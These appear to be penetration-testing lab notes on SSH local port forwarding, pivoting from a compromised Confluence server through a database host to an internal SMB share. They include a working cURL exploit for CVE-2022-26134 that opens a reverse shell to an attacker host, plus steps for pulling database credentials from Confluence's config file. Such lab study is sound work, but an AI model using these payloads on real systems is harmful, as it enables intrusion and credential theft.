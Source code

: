 ## Local Port Forward
- Can only connect to one socket per SSH Connection
#### Scenario
- Socat isn't available on CONFLUENCE01
- Still have creds cracked from the *confluence* database
- Still no firewall blocking the port we bind to
- Log into PGDATABASE01 with the _database_admin_ creds & see it's attached to another internal subnet (*ip addr,  routel*)
- Find a host w/ SMB server open (445) in that newly discovered subnet
- Utilize *database_admin* creds to set up SSH Local Port Forward through PGDATABASE01 to access HRSHARES

- CONFLUENCE01 - **192.168.163.63** LIstening 
- PGDATABASE01 - **10.4.163.215**
- HRSHARES - **172.16.163.217**


#### Execution
- Create an SSH port forward from  CONFLUENCE01 to PGDATABASE01
- Bind to a listening port on the WAN interface of CONFLUENCE01
- All packets sent to that port will be forwarded through the SSH tunnel to PGDATABASE01
- PGDATABASE01 will then forward these packets toward the SMB port on the newly discovered host

![](ssh-tunnel.new.png)

#### Breakdown

- As before, get a shell on CONFLUENCE01 using the cURL one-liner exploit for CVE-2022-26134
```bash
curl -v http://[CONFLUENCE01_IP]:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/[KALI_IP]/1270%200%3E%261%27%29.start%28%29%22%29%7D/
```


- Knowing it's a Confluence server, check the configuration file
```bash
confluence@confluence01:/opt/atlassian/confluence/bin$ cat /var/atlassian/application-data/confluence/confluence.cfg.xml
	...
	    <property name="hibernate.connection.password">D@t4basePassw0rd!</property>                           #<-- NOTE password
	    <property name="hibernate.connection.url">jdbc:postgresql://10.4.50.215:5432/confluence</property>    #<-- NOTE address/ port
	    <property name="hibernate.connection.username">postgres</property>                                    #<-- NOTE username
	...
```


> In order to SSH directly from CONFLUENCE01 to PGDATABASE01 we'll need to discover exactly which IP address and port we want the packets forwarded to

- Ensure that confluence shell has [TTY](Fully%20Interactive%20TTY.md) functionality
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

# IF a Permission Denied error message occurs, try:
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
